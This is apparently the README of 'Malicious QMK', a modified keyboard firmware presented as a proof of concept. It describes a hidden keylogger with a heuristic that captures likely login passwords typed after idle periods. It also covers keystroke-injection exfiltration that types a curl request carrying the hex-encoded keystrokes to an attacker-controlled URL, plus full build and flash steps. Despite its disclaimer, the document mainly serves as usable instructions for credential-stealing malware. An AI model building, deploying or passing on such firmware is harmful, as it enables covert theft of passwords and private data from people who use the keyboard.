




Malicious QMK
--------------

## DISCLAIMER!!!

This project enables a malicious attacker to socially-engineer unsuspecting victims into giving them potentially sensitive information such as passwords without their consent. It exists as a **proof-of-concept only** and should never be used to unlawfully obtain another person's private information.

#### Anyone who uses a keyboard with this firmware installed should have a full and complete understanding of its capabilities!

## Summary

This is a modified version of the popular QMK keyboard firmware which contains malicious code that logs the user's keystrokes, then implements a [rubber ducky](https://www.linux.org/threads/usb-rubber-ducky.4464/) style attack to open a network connection and send the keylogged data to a remote URL via a HTTP GET request, by sending a series of keystrokes to the user's computer.

It also looks for keystrokes which are more likely to be part of a password and stores them separately.

This firmware can currently only be flashed onto a [DZ60 PCB](https://kbdfans.com/products/dz60-60-pcb), but can be modified to work on any QMK-supported board.

This is a fork of the existing [QMK repo](https://github.com/qmk/qmk_firmware) and the QMK readme is renamed as `qmk_readme.md`

## Setup & Installation

1. Install [QMK Toolbox](https://github.com/qmk/qmk_toolbox/) (optional but gives a GUI for flashing)

2. Follow steps 1, 2 and 3 from the [QMK docs](https://docs.qmk.fm/#/newbs_getting_started) on how to setup the build environment. There are instructions to do this on Windows, MacOS and Linux.

3. Clone this repo
```
git clone https://github.com/aaron-lucas/malicious_qmk
```

4. Navigate to the repo's root directory and run the configuration script to set the destination URL (follow the script prompts).
```
python3 scripts/configure.py
```

5. Build the firmware
```
qmk compile -kb dz60_custom -km default
```

6. Flash it onto the keyboard by following the [instructions on the QMK docs](https://docs.qmk.fm/#/newbs_flashing). The firmware file will be  `build/dz60_custom_default.hex`.

## Features

### Firmware Keylogger

Malicious QMK records up to 2048 key events, generated by the user typing into the infected keyboard. A *key event* is the action of either pressing or releasing a key, so this effectively means that up to 1024 characters can be saved at any time.

#### Logging Details

These key events are stored in the internal SRAM of the on-board microcontroller. This has only been tested on a [DZ60 PCB](https://kbdfans.com/products/dz60-60-pcb) which contains an [ATmega32U4 microcontroller](https://www.microchip.com/wwwproducts/en/ATmega32U4) with 2.5kB of SRAM. Other PCBs with different microcontrollers may have differently sized memories so may be able to store more or less key events.

Key events are stored in one of two memory regions:

* A **volatile** section which overwrites old key events with newer ones, or
* A **saved** section which does not overwrite any events

The volatile section is used for general key events and the saved section is used for key events that are thought to  be likely part of a password.

In order to maximise the number of key events that can be recorded, only a subset of keys are logged. This includes every key on a standard US ANSI 104-key keyboard with a few extras. Keys which are not recorded include special QMK keys which perform functions such as layer changes, modifying the RGB backlight settings and changing audio levels.

There are a total of 107 distinct loggable keys, which can be encoded in 7 binary bits. Another single binary bit is used to indicate whether the key event was a press or a release, meaning that every key event can be stored in a single byte of memory.

Since QMK has more than 127 distinct keycodes and some of the desired keys to be recorded are encoded as a number larger than 127, those keycodes need to be represented as a different number when stored in memory. Fortunately, this only applies to the eight modifier keys. This can be done dynamically by translating the QMK keycode by an offset such that the internal keycode follows on from the other loggable keycodes.

The following table shows every loggable key, along with both its QMK and internal keycode mapping:


#### Dumping Logged Keys

Two custom keycodes have been created which replay all logged key events in a replay-style attack. As mentioned above, there are two distinct memory regions where events are stored, and each one will have its own 'dump' key to replay the events stored there. These keys are internally named `KC_DMPV` and `KC_DMPS` to dump the volatile and saved sections respectively.

These keys will read through the array of recorded key events and cause them to be replayed in typing order. This preserves all typed symbols, capitalised letters and even key combinations which were performed (such as Alt-F4 or Command-Q).

Since no timing information is stored, each keypress will correspond to a single typed character, even if that key was actually held down and generated multiple characters when actually typed by the user.

#### More than 2048 Key Events??

As mentioned previously, only 2kB of SRAM memory is allocated for logging key events. This includes the volatile and saved sections outlined above. If the volatile section fills up then it will overwrite the oldest events to make space for the newest ones.

Currently, more than 2048 events cannot be stored unless a microcontroller with a larger SRAM is used.

A potential solution to this is to store 2kB blocks of data in the micrcontroller's program memory, freeing up space in SRAM for more logging. This would also have the benefit of making the data persistent in the event power is removed. This feature is **not** currently implemented.

### Remote Data Transfer

Malicious QMK also has the ability to remotely transmit all logged key events to a pre-defined URL by generating a HTTP GET request. This currently only works on MacOS however could be extended to other operating systems. This information cannot be transmitted by simply replaying the logged keys, as it would run into two major problems:

1. Certain characters such as the space character, '%' and various other symbols will not form a valid GET request and need to be encoded.
2. Non-printable keys such as arrows, modifiers and function keys will not be sent through this method and could even prevent the computer from sending a valid request by moving the cursor or changing the active window.

Instead of dumping the logged events, each 1-byte event is encoded as its hexadecimal equivalent, which only uses the characters 0-9 and A-F, all of which can be used in a GET request without the above problems occurring.

There is a trade-off with this method in that each event requires two characters to be sent to the computer, so each key*press* is encoded as *four* characters. This increases the time it takes the keyboard to type out the encoded data which increases the likelihood the attack will be detected and stopped.

The method of generating the GET request is as follows:

1. Open Spotlight by pressing `Command+Space`
2. Open a terminal window by typing `terminal` and pressing `Enter`
3. Type `curl '<url>?q=` where `<url>` is the URL of the attacker-controlled destination
4. Type out the encodings of recorded key events
5. Complete the request by typing `' ; exit` and pressing `Enter`

This is currently triggered by another custom keycode (`KC_TSFR`).

The event encodings of the saved memory section are typed first, followed by `00`, then the encodings of the volatile section. The sections are separated so that the two memory sections can be distinguished and `00` is chosen as a delimiter as no valid key has that encoding.

#### Decoding Transferred Data

There is a python script in the `scripts/` directory named `decode_data.py` which will convert the hex-encoded event data back into key events.

This can be run by executing
```
python3 scripts/decode_data.py
```
where the encoded data can then be given to stdin.

### Password Detection

This firmware also looks for a common user behavioural pattern to attempt to detect events which are likely to be part of a password.

The firmware will become 'idle' if no key events have occurred for a pre-determined amount of time (30 minutes by default). When in this state, a user has likely left their computer, causing it to become locked and require a password upon return. Once the keyboard is idle, it will look for key events which are followed by an `Enter` keypress, record them in the saved memory section (which is never overwritten) and leave the idle state. The events preceding the `Enter` key will likely be the login password for the user's computer.

If this pattern is not observed before the saved section becomes full, all events are transferred out of the saved region into the volatile region as to not unnecessarily fill up the precious space for non-overwritable data.

The keyboard can be forced into this idle state with the `KC_IDLE` custom keycode.

## Implementation Details

### Internal Storage Format

Each key event is encoded in a single byte with the most significant bit representing the status of the key (`1` representing a key*press* and `0` representing a key*release*). The remaining 7 bits store the internal keycode from the above table.

The following diagram demonstrates the storage format visually:



### Data Structure for Event Logging

A custom data structure is implemented called a **volatile/save buffer**

This is a fixed-size buffer which is split into two sections:

1. A volatile section which records the most recent events, overwriting the oldest ones
2. A saved section which records data that should not be overwritten
Normal key events are stored in the volatile section while events which are detected as likely to be part of a password are stored in the saved section.

#### Design & General Functionality

The following diagram shows the four states in which the volatile/save buffer can assume:



* The overall size of the buffer is still currently 2048 items
* The volatile section can grow as long as there is free space in the buffer (states A and B)
* If there is no free space, the volatile section will start overwriting the oldest entries (states C and D)
* The saved section can grow up to a certain maximum size (`SAVE_MAX`, currently 512 events) to prevent it from taking up all the buffer space (states B and C)
* If there is no space in the buffer but the saved section has not reached its max size, it will reduce the size of the volatile section, removing the oldest entries. This prioritises the saved data over the volatile data (state D)
* Once the saved data section is full, no more events can be stored there

### Default Layout

#### Layer 0



#### Layer 1

Custom keycodes replace the following keys:

* R -> `Reset` (enter bootloader mode)
* T -> `KC_TSFR` (transfer logged data via HTTP GET request)
* I -> `KC_IDLE` (force into idle state)
* S -> `KC_DMPS` (dump saved events)
* V -> `KC_DMPV` (dump volatile events)


